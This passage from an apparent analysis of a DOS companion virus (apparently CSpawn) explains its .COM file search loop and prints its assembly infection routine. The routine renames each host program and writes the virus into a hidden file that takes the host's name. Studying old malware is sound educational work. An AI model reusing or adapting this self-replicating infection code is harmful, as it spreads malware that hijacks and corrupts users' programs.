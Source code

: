 -   **Initializing File Search**:
    
    -   `mov dx,OFFSET COM_MASK`: Sets up the `DX` register to point to the string `'*.COM'`, which is the search pattern for finding `.COM` files.
    -   `mov ah,4EH` and `xor cx,cx`: Prepares for a DOS function call to find the first file matching the `.COM` pattern. `AH=4EH` is the DOS function for "Find First File", and `CX` is cleared to 0 to search for files with any attribute (including hidden, system, etc.).
-   **Searching Loop**:
    
    -   `int 21H`: This interrupt call performs the actual file search.
    -   `jc FIND_DONE`: If the 'carry flag' is set (indicated by `jc`, jump if carry), no more files are found, and the routine exits.
    -   `call INFECT_FILE`: Calls the routine to infect the found file.
    -   `mov ah,4FH`: Prepares for the "Find Next File" DOS function.
    -   The `jmp FIND_LOOP` causes the program to loop back and search for the next `.COM` file.

### Infection Mechanism

#### Code Overview

```assembly
INFECT_FILE:
    mov     si,9EH                    ; DTA + 1EH
    mov     di,OFFSET REAL_NAME       ; DI points to new name
INF_LOOP:
    lodsb
    stosb
    or       al,al
    jnz      INF_LOOP                 ; Is it a NULL?
    mov      WORD PTR [di-21],'N'
    mov     dx,9EH
    mov     di,OFFSET REAL_NAME
    mov     ah,56H
    int     21H                       ; rename original file
    jc       INF_EXIT                 ; if can’t rename, already done

    mov     ah,3CH
    mov     cx,2
    int     21H                       ; DOS create file function
                                      ; set hidden attribute

    mov     bx,ax                     ; BX holds file handle
    mov     ah,40H
    mov     cx,FINISH - CSpawn
    mov     dx,OFFSET CSpawn
    int     21H                       ; DOS write to file function

    mov     ah,3EH
    int     21H                       ; DOS close file function

INF_EXIT:
    ret
  ```
